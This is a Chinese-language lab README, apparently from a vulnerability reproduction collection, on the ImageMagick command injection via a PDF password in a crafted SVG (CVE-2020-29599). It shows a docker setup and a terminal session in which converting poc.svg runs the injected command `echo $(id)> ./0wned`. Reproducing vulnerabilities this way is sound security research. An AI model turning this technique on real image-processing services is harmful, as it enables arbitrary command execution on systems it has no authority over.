

# Imagemagick PDF 密码位置命令注入漏洞（CVE-2020-29599）

ImageMagick 是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在 Imagemagick 7.0.10-35 到 7.0.10-40、6.9.11-35 up 到 6.9.11-40 处理 PDF 的过程中存在一处命令注入漏洞，通过构造好的 SVG 格式图片文件，即可在 Imagemagick 中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 漏洞环境与复现

直接执行如下命令进入安装了 Imagemagick 7.0.10-36 的 Linux 环境：

```
docker compose run im bash
```

进入 `/tmp` 目录，对 [poc.svg](poc.svg) 进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

此时命令 `echo $(id)> ./0wned` 已执行成功：


